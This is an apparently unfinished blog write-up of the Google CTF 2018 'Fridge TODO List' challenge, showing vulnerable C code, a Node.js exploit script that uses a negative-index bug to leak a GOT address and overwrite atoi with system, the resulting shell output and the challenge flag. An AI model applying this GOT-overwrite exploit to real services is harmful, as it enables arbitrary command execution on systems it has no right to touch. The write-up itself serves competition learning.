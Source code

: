 # Finding Cakes at Google CTF 2018

(Intro TODO)

## Fridge TODO List

The source code of the vulnerable program is included in the attachment.
Reading over it, it's not hard to see what's broken, but how to exploit it
is another question:

```C
// [...]

void store_todo() {
  printf("In which slot would you like to store the new entry? ");
  fflush(stdout);
  int idx = read_int();
  if (idx > TODO_COUNT) {
    puts(OUT_OF_BOUNDS_MESSAGE);
    return;
  }
  printf("What's your TODO? ");
  fflush(stdout);
  read_line(&todos[idx*TODO_LENGTH], TODO_LENGTH);
}

void print_todo() {
  printf("Which entry would you like to read? ");
  fflush(stdout);
  int idx = read_int();
  if (idx > TODO_COUNT) {
    puts(OUT_OF_BOUNDS_MESSAGE);
    return;
  }
  printf("Your TODO: %s\n", &todos[idx*TODO_LENGTH]);
}

// [...]
```

If I enter a negative number, I can read and write data out of bound. However,
`TODO_LENGTH` is `0x30`, with some math and a disassembler, I found places
that I can access:

```
-6  The "write" function in the Global Offset Table
-5  The "strncat" function in the Global Offset Table
-4  The "open" function in the Global Offset Table
-3  Some random place
-2  Start of "username" buffer
-1  Somewhere in the middle of "username" buffer
```

The `system` function that's in between `write` and `strncat` would allow me to
execute any shell command, so my goal should be to overwrite the Global Offset
Table (GOT) and make some other function point to `system`. Since `atoi` is
used to parse my menu choice input, it would be easy to exploit if I can make
`atoi` point to `system`. But there is another problem, modern operating
systems have ASLR, and a static payload would not work.

I spent some time creating a 
[Node.js library](https://github.com/jspenguin2017/Blog/tree/master/tools/lib)
that allow my scripts to react to different server response over `netcat`.
Since I can't directly read the address of `system`, I have to calculate it
based on something else. `strncat` is already called before I can leak the
GOT, but `write` is only called when the program is exiting, so its GOT entry
should be still pointing to the Procedure Linkage Table (PLT). With Hopper
Disassembler, I determined that the `system` entry in PLT is `0x30` below
`write`. Hopefully it'll work:

```JavaScript
"use strict";

const assert = require("assert");
const nc = require("./lib/netcat");
const hex = require("./lib/hexutil");

const conn = new nc("fridge-todo-list.ctfcompetition.com", 1337);

(async () => {
    // Log in
    await conn.read_until("user:");
    conn.write_line("root");

    await conn.read_until(">");
    conn.write_line("2");

    // Leak address of "write" in the GOT
    await conn.read_until("read?");
    conn.write_line("-6");

    await conn.read_until("TODO: ");
    let data = await conn.read_until("Hi root");

    const i = data.indexOf("\n\n");
    assert(i !== -1);
    data = data.slice(0, i);
    hex.add(data, 0x30);

    // Overwrite "atoi" with "system", corrupting "open" on the way, I don't
    // need "open" anymore, so it's OK
    await conn.read_until(">");
    conn.write_line("3");

    await conn.read_until("entry?");
    conn.write_line("-4");

    await conn.read_until("TODO?");
    conn.write("A".repeat(8)); conn.write(data); conn.write("\n");

    // List directory
    await conn.read_until(">");
    conn.write_line("ls -al ./todos");
})();
```

Let's try it:

```
$ node exploit
[...]
> ls -al ./todos
total 12
drwxrwxrwt 2 user user   80 Jul  8 03:47 .
drwxr-xr-x 3 user user 4096 Jun 29 14:38 ..
-rw-r--r-- 1 user user 6144 Jul  8 03:47 CountZero
-rw------- 1 user user    0 Jul  8 03:47 root
[...]
```

Looks like Wintermuted is using `CountZero` as his username:

```
$ nc fridge-todo-list.ctfcompetition.com 1337
[...]
user: CountZero
+=====+=================================================================+
|   0 | Watch Hackers (again)                                           |
|   1 | Figure out why the fridge keeps beeping                         |
|   2 | check /home/user/holey_beep                                     |
|   3 | debug the fridge - toilet connectivity                          |
|   4 | follow sec advice: CTF{goo.gl/cjHknW}                           |
+=====+=================================================================+
[...]
```

And there is the flag. Check `/home/user/holey_beep`? What does that mean?

## Holey Beep

Holey Beep or [CVE-2018-0492](https://nvd.nist.gov/vuln/detail/CVE-2018-0492)
is a privilege escalation vulnerability in the `beep` utility.

(TODO)

## (Ending TODO)

(Ending TODO)
